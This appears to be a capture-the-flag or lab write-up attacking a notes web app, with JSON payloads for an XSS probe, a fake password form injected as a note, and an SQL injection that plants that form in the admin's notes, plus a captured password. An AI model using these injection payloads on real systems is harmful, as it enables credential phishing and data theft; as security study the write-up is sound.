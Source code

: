 ### `xss_test.json`
```json
{
  "2012": {
    "encrypted": 0,
    "note": "<script>alert()</script>",
    "title": "XSS Test"
  }
}
```
#### Conclusions
The alert box popped up, which means that the app is vulnerable to XSS attacks.

### `fake_form.json`
```json
{
  "2013": {
    "encrypted": 0,
    "note": "<form action=\"/render\" method=\"post\"> <label for=\"password\">Note password: </label> <input type=\"password\" id=\"password\" name=\"markdown\"> <input type=\"submit\" id=\"decrypt\" value=\"Decrypt note\"> <input type=\"hidden\" id=\"title\" name=\"title\" value=\"note_password\"> <input type=\"checkbox\" id=\"encrypted\" name=\"encrypted\" style=\"display: none;\"> </form>",
    "title": "Fake form"
  }
}
```
#### Conclusions
- Upon uploading that form as a note of mine, I can see that it's displayed as a form on the website.
- After clicking the `Decrypt note` button, the password (in plaintext) has been actually submitted to the database as a new note.

### `form_injection.json`
```json
{
  "2014": {
    "encrypted": 0,
    "note": "', 2014, 0, 'Dump note'), ('admin', '<form action=\"/render\" method=\"post\"> <label for=\"password\">Note password: </label> <input type=\"password\" id=\"password\" name=\"markdown\"> <input type=\"submit\" id=\"decrypt\" value=\"Decrypt note\"> <input type=\"hidden\" id=\"title\" name=\"title\" value=\"note_password\"> <input type=\"checkbox\" id=\"encrypted\" name=\"encrypted\" style=\"display: none;\"> </form>', 714, 0, 'Hoist the colours!'); --",
    "title": "Doesn't matter - it's overwritten anyways!"
  }
}
```
#### Result
```
note_password
dq1shHUb
```
#### Conclusions
- The `admin` still thinks he needs to input the password to access the note. However, he doesn't realize it's a fake form that submits the password to the database as a note.
- This password can be then used to decrypt the note. We can access it by dumping the `notes` of the `admin` again using SQL injection.
